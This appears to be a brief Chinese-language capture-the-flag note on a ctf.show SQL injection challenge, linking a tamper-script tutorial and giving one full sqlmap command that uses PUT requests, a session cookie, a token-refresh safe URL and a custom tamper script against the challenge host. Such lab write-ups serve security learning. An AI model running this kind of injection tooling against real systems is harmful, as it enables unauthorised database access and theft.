

# 知识点
自带的tamper似乎都不好用，开始自己写tamper脚本<br />tamper脚本教程<br />[https://y4er.com/post/sqlmap-tamper/](https://y4er.com/post/sqlmap-tamper/)
# 思路
```bash
python sqlmap.py -u "http://4932367a-1bc8-4644-96d4-d0f9ff65a313.challenge.ctf.show/api/index.php" --method="PUT" --data="id=1" --referer=ctf.show --headers="Content-Type: text/plain" --cookie="PHPSESSID=1vrv4fg7q4uid8i1lhma043h20" --safe-url="http://4932367a-1bc8-4644-96d4-d0f9ff65a313.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=web209.py

```

